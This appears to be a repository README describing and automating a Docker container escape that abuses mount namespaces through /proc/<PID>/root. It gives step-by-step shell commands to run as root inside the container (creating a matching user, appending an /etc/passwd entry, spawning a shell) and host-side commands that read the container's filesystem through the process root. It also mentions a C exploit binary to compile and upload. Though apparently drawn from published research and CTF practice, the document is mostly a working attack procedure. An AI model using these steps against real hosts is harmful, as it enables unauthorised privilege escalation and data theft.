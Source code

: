 # Abusing mount namespaces through /proc/<PID>/root

In this repository I come to automate the namespace technique to escape from a Docker and elevate privileges/remove the flag/dump data, etcetera. You can read in more detail this technique [here](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot). In order to perform this technique successfully you need to fulfill the following requirements.

- Shell as non-privileged user on host
- Shell as root on the Docker.

Exploit:

**The following steps you must run them in the Docker as root.

``` shell
useradd luk4s # This user must exist on the host machine.
usermod -aG luk4s luk4s
echo "luk4s:x:1000:1000:luk4s:/home/luk4s:/bin/bash" >> /etc/passwd # The content can be taken out of the machine host -> grep luk4s /etc/paswd
su luk4s
/bin/sh # We run this command when we gain shell as luk4s in the container
```

With this we are ready to work on the container.

**The following commands must be executed from the hosts machine.

``` shell
ps aux | grep sh # You will notice a process that runs your user with a sh, this was the process you created in the container
grep -a "flag" /proc/<pid>/root/sda
```

PoC:

![](https://i.imgur.com/7FyR5qG.png)

## Automation

Program a C script which automates the steps to follow in the container, if you want to use the binary you compile it using `gcc` and upload it to Docker.

``` shell
gcc exploit.c -o exploit
```

Thanks for reading :)
